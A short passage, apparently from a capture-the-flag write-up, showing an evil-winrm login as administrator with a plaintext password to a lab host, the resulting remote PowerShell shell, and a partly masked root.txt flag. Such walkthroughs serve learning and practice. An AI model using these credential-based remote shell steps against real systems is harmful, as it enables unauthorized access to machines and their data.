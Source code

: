 ```

root@kali# evil-winrm -u administrator -p baCT3r1aN00dles -i 10.10.10.182

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents>

```

And get `root.txt`:

```
*Evil-WinRM* PS C:\Users\Administrator\desktop> cat root.txt
5e9c87e9************************

```